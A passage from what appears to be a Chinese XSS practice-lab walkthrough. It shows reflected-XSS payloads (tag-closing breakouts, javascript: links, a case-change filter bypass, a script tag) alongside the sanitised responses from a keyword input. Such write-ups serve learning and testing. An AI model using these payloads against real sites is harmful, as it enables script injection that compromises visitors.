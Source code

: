 
姿态二

```
"> <a href="javascript:alert(1)">1</a>
```

可以预想到">进行标签闭合

加上一个超链接标签

然后直接点击超链接进行跳转



## 6.

使用payload5进行提交

```
"> <a href="javascript:alert(1)">1</a>
```

得到结果

```
<input name=keyword  value=""> <a hr_ef="javascript:alert(1)">1</a>">
```

说明 a标签也给过滤掉了



尝试一下大小写绕过

```
"> <a Href="javascript:alert(1)">1</a>
```



## 7.

使用payload6进行提交

```
"> <a Href="javascript:alert(1)">1</a>
```



结果为

```
<input name=keyword  value=""> <a ="java:alert(1)">1</a>">
```



滤过了href和script



改个方式

```
"><script>alert(1)</script>
```
